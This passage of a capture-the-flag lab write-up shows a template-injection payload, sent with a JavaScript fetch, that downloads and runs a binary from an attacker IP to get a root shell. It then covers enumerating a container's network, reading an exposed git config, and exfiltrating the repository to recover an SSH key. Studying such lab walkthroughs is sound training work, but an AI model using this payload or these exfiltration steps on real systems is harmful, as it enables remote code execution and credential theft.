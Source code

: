 ```javascript
const formData = new URLSearchParams({
  title: "My New Wiki",
  markdownContent: `{{ ''.constructor.constructor('require("child_process").exec("wget 10.10.174.209:4444/c -O /tmp/c && chmod 777 /tmp/c && /tmp/c")')() }}`
});

fetch('/wiki', {
  method: 'POST',
  headers: {
    'Content-Type': 'application/x-www-form-urlencoded',
  },
  body: formData.toString(),
})
```

this will get a shell as root inside a container. 

#### enumeration and git

Enumeration from here can be tricky, as the box is quite tightly locked down, but a few facts are discovered:

- on this container there are three websites under /app: thehub-uat (with the contact form), thehub-int (with the wiki) and the under construction site.
- the machine's IP address is 172.16.1.3. There is a port 3000, 4873 and 5000 listening on 172.16.1.2 (4873 is the verdaccio site) and there is 22 on 172.16.1.1
- by examining the source code of /app/bfc_thehubuat and both ps aux and netstat -tulpn, you can see the various hosting arrangements.
- there is an assets folder that contains within it a git repo: `/app/bfc_thehubuat/assets/.git`. this assets folder is exposed at `:3000/`

by reading the git config file, some interesting information can be gathered:

```
01ab15a97254:/app/bfc_thehubuat/assets/.git# cat config
[core]
        repositoryformatversion = 0
        filemode = true
        bare = false
        logallrefupdates = true
        ignorecase = true
        precomposeunicode = true
[remote "origin"]
        url = git@10.10.208.125:bfcthehubuat
        fetch = +refs/heads/*:refs/remotes/origin/*
[branch "main"]
        remote = origin
        merge = refs/heads/main
[user]
        name = bfc_admin
        email = bfc_admin@bestfestivalcompany.thm
```

 There is no git binary on the box, but you can exfiltrate the repo (e.g. by taring it - thehub-uat serves the assets folder at / for reasons that will become important later) and explore on the attack box or wherever; in the history you can find an ssh key called `backup.key` under /assets/backup.
